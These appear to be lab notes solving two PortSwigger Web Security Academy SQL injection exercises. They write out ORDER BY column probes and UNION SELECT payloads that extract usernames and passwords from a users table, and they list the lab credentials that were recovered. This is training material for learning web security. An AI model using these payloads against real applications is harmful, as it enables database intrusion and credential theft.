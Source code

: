 Solution:

1) Find out how many columns.

```
https://accf1fd01e3e6c0e80c42b9c00c20075.web-security-academy.net/filter?category=Gifts' ORDER BY 2--
```

It errors out at 3, so there are two columns.

Now, union select to get credentials:

```
https://accf1fd01e3e6c0e80c42b9c00c20075.web-security-academy.net/filter?category=Gifts' UNION SELECT username, password from users--
```

Credentials:

```
administrator
86wv9v4ffbmurwkkn9sh
```

Login and lab is solved!

## [LAB] SQL injection UNION attack, retrieving multiple values in a single column

Goal: Get the values of 2 columns back with only one returning. uses concatenation.

Solution:

Find Columns:

```
https://accf1fd01e3e6c0e80c42b9c00c20075.web-security-academy.net/filter?category=Gifts' ORDER BY 2--
```

It errors out at 3, so there are two columns.

Only one can take a string. Use concat to get user/password.

```
' UNION SELECT null, username || '~' || password FROM users--
```

Results:

```
wiener~j49s12b1aejr8tkjkmh0
administrator~xnsfbdrf20auepib1e4q
carlos~jg4ionsnj09mzz4kgz62
```

Log in with admin credentials to finish the lab.


# Bypass
